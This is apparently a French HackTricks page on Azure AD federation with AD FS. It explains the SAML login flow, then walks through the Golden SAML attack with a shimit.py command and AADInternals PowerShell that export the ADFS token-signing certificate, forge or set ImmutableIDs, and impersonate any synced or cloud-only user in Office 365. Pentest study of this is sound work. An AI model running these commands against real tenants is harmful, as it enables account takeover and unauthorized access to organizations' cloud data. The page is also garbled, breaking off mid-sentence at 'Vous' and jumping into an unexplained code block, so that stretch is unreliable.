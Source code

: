 # Fédération

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFT exclusifs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informations de base

La **fédération** est une collection de **domaines** qui ont établi une **confiance**. Le niveau de confiance peut varier, mais comprend généralement **l'authentification** et inclut presque toujours **l'autorisation**. Une fédération typique peut inclure un **certain nombre d'organisations** qui ont établi une **confiance** pour un **accès partagé** à un ensemble de ressources.

Vous pouvez **fédérer votre environnement sur site** avec Azure AD et utiliser cette fédération pour l'authentification et l'autorisation. Cette méthode de connexion garantit que toute **l'authentification de l'utilisateur se produit sur site**. Cette méthode permet aux administrateurs de mettre en œuvre des niveaux de contrôle d'accès plus rigoureux. La fédération avec **AD FS** et PingFederate est disponible.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

En gros, dans la fédération, toute **l'authentification** se produit dans l'environnement **sur site** et l'utilisateur bénéficie d'un SSO dans tous les environnements de confiance. Par conséquent, les utilisateurs peuvent **accéder aux applications cloud** en utilisant leurs **informations d'identification sur site**.

Le **Security Assertion Markup Language (SAML)** est utilisé pour **échanger** toutes les informations d'authentification et d'autorisation entre les fournisseurs.

Dans toute configuration de fédération, il y a trois parties :

* Utilisateur ou client
* Fournisseur d'identité (IdP) :
* Fournisseur de services (SP)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. Tout d'abord, l'utilisateur **essaie d'accéder à une application** (également connue sous le nom de SP, c'est-à-dire fournisseur de services), qui peut être une console AWS, un client web vSphere, etc. Selon la mise en œuvre, le client peut aller directement à l'IdP en premier et sauter la première étape de ce diagramme.
2. L'application **détecte l'IdP** (c'est-à-dire le fournisseur d'identité, qui peut être AD FS, Okta, etc.) pour authentifier l'utilisateur, **génère une demande d'authentification SAML** et redirige le client vers l'IdP.
3. L'**IdP authentifie l'utilisateur**, **crée une réponse SAML** et la poste au SP via l'utilisateur.
4. Le SP **vérifie la réponse SAML** et **connecte l'utilisateur**. Le SP doit avoir une relation de confiance avec l'IdP. L'utilisateur peut maintenant utiliser le service.

**Si vous voulez en savoir plus sur l'authentification SAML et les attaques courantes, allez sur :**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivotement

* AD FS est un modèle d'identité basé sur les revendications.
* "..les revendications sont simplement des déclarations (par exemple, nom, identité, groupe) faites à propos des utilisateurs, qui sont utilisées principalement pour autoriser l'accès aux applications basées sur les revendications situées n'importe où sur Internet."
* Les revendications pour un utilisateur sont écrites à l'intérieur des jetons SAML, puis sont signées pour assurer la confidentialité par l'IdP.
* Un utilisateur est identifié par ImmutableID. Il est globalement unique et stocké dans Azure AD.
* L'ImmutableID est stocké sur site en tant que ConsistencyGuid pour l'utilisateur et/ou peut être dérivé du GUID de l'utilisateur.
* Plus d'informations sur [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Attaque Golden SAML :**

* Dans ADFS, la réponse SAML est signée par un certificat de signature de jeton.
* Si le certificat est compromis, il est possible de s'authentifier auprès d'Azure AD en tant que N'IMPORTE QUEL utilisateur synchronisé avec Azure AD !
* Tout comme notre abus de PTA, le changement de mot de passe pour un utilisateur ou MFA n'aura aucun effet car nous forgeons la réponse d'authentification.
* Le certificat peut être extrait du serveur AD FS avec des privilèges DA et peut ensuite être utilisé à partir de n'importe quelle machine connectée à Internet.
* Plus d'informations sur [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

Dans le schéma précédent, la partie la plus intéressante est la troisième, où l'**IdP** génère une **réponse SAML** autorisant l'utilisateur à se connecter. Selon la mise en œuvre spécifique de l'IdP, la **réponse** peut être soit **signée**, soit **chiffrée** par la **clé privée de l'IdP**. De cette façon, le **SP peut vérifier** que la SAMLResponse a été effectivement créée par l'IdP de confiance.

Similaire à une [attaque de ticket d'or](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), avec la **clé** qui **signe** l'objet qui contient l'**identité de l'utilisateur** et les **autorisations** (_KRBTGT_ pour le ticket d'or et la clé privée de signature de jeton pour le Golden SAML), nous pouvons alors **forger un tel "objet d'authentification"** (TGT ou SAMLResponse) et **nous faire passer pour n'importe quel utilisateur** pour obtenir un accès non autorisé au SP.

De plus, les Golden SAML présentent les avantages suivants :

* Ils peuvent être **générés** depuis pratiquement **n'importe où**. Vous
# pk - Chemin complet du fichier de clé privée (format pem)
# c - Chemin complet du fichier de certificat (format pem)
# u - Nom d'utilisateur et de domaine, par exemple domain\username (utilisez \ ou des guillemets dans *nix)
# n - Nom de session dans AWS
# r - Rôles souhaités dans AWS. Prend en charge plusieurs rôles, le premier spécifié sera supposé.
# id - Identifiant de compte AWS, par exemple 123456789012

# Enregistrer SAMLResponse dans un fichier
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

```powershell
# Avec un utilisateur de domaine, vous pouvez obtenir l'ImmutableID de l'utilisateur cible
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# Sur le serveur AD FS, exécutez en tant qu'administrateur
Get-AdfsProperties | select identifier

# Lors de la configuration de l'AD FS à l'aide d'Azure AD Connect, il y a une différence entre IssueURI sur le serveur ADFS et Azure AD.
# Vous devez utiliser celui d'AzureAD.
# Par conséquent, vérifiez également l'IssuerURI d'Azure AD (utilisez le module MSOL et nécessitez des privilèges GA)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extraire le certificat de signature de jeton ADFS du serveur ADFS à l'aide de AADInternals
Export-AADIntADFSSigningCertificate

# Impersonnaliser un utilisateur pour accéder aux applications cloud
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

Il est également possible de créer l'ImmutableID d'utilisateurs uniquement cloud et de les impersonnaliser

```powershell
# Créer un ImmutableID réaliste et le définir pour un utilisateur uniquement cloud
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extraire le certificat de signature de jeton ADFS du serveur ADFS à l'aide de AADInternals
Export-AADIntADFSSigningCertificate

# Impersonnaliser l'utilisateur
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Supportez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>